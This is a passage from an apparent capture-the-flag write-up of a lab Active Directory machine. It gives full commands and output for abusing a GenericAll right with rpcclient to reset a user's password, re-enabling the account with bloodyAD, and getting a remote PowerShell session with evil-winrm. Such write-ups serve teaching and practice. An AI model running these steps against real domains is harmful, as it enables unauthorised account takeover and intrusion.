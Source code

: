 ### 🎯 Abusing GenericAll to Reset a Password

<p class="indent-paragraph">
While reviewing the permissions extracted via BloodHound, one edge stood out: <span class="highlight-red">GenericAll</span> granted to <span class="blue">ant.edwards</span> over<code>adam.silver</code><span class="codefix">.</span> This level of access permits full control over the target user object, including the ability to set a new password. Following the approach described in <a href="https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/" target="_blank" style="color: #89CFF0; text-decoration: none;"><strong>Abusing AD-DACL: ForceChangePassword</strong></a>, we connected to the domain controller using<code>rpcclient</code><span class="codefix">,</span> a powerful command-line tool for interacting with Windows services over SMB. By issuing<code>setuserinfo ADAM.SILVER 23 Ch4ng3Passw0rd@123</code><span class="codefix">,</span> we invoked the level<code>23</code> structure, which instructs the server to silently overwrite the user’s password without requiring the original. At first, login attempts failed with<code>STATUS_ACCOUNT_DISABLED</code><span class="codefix">.</span>
</p>


```
~$ rpcclient -U 'dc.puppy.htb\Ant.Edwards%Antman2025!' dc.puppy.htb

rpcclient $> setuserinfo ADAM.SILVER 23 Ch4ng3Passw0rd@123
rpcclient $> exit
```

```
~$ nxc smb dc.puppy.htb  -u 'ADAM.SILVER' -p 'Ch4ng3Passw0rd@123'

SMB         dc.puppy.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb     445    DC               [-] PUPPY.HTB\ADAM.SILVER:Ch4ng3Passw0rd@123 STATUS_ACCOUNT_DISABLED 
```

### 🔓 Account Reactivation and Shell Access via Evil-WinRM

<p class="indent-paragraph">
With Adam’s password reset, we were nearly there, except the account was still flagged as disabled. To address this, we used<code>bloodyAD</code><span class="codefix">,</span> a post-exploitation tool designed to manipulate Active Directory objects via LDAP operations. By issuing<code>remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE</code><span class="codefix">,</span> we cleared the<code>ACCOUNTDISABLE</code> bit from the<code>userAccountControl</code> attribute, effectively reactivating the account. No need to edit the object manually or interact via GUI, a single command, and Adam Silver was back online.
</p>


```
~$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from ADAM.SILVER's userAccountControl
```

<p class="indent-paragraph">
With the account re-enabled and armed with valid credentials, we initiated a session using<code>evil-winrm</code><span class="codefix">,</span> a reliable tool for remote PowerShell access in Windows environments. Connecting to the domain controller as <span class="blue">adam.silver</span>, we navigated to the user’s<code>Desktop</code> and retrieved the<code>user.txt</code> flag — final confirmation that our foothold had been successfully established.
</p>
